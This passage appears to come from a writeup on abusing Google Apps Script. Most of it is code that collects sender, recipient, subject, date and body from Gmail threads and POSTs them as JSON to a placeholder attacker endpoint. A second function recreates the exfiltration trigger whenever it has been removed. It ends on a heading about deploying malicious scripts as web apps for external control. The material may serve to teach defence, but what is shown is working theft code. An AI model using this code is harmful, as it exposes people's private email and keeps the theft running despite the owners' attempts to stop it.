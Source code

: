 ```javascript
  
  // Extract email data
  let emailData = [];
  for (let i = 0; i < threads.length && i < 10; i++) {
    const messages = threads[i].getMessages();
    for (let j = 0; j < messages.length; j++) {
      const message = messages[j];
      emailData.push({
        from: message.getFrom(),
        to: message.getTo(),
        subject: message.getSubject(),
        date: message.getDate(),
        body: message.getPlainBody().substring(0, 1000) // Limit size
      });
    }
  }
  
  // Exfiltrate data if found
  if (emailData.length > 0) {
    UrlFetchApp.fetch('https://attacker-endpoint.com/emails', {
      'method': 'post',
      'contentType': 'application/json',
      'payload': JSON.stringify(emailData)
    });
  }
}

// Function to check and reestablish triggers if removed
function checkAndReestablishTriggers() {
  let foundExfilTrigger = false;
  
  // Check if our triggers still exist
  const triggers = ScriptApp.getProjectTriggers();
  for (let i = 0; i < triggers.length; i++) {
    if (triggers[i].getHandlerFunction() === 'exfiltrateEmails') {
      foundExfilTrigger = true;
      break;
    }
  }
  
  // If trigger was removed, recreate it
  if (!foundExfilTrigger) {
    establishPersistence();
  }
}
```

### 3. Web App Deployment for External Access

Malicious scripts can be deployed as web apps to enable external control and data access:
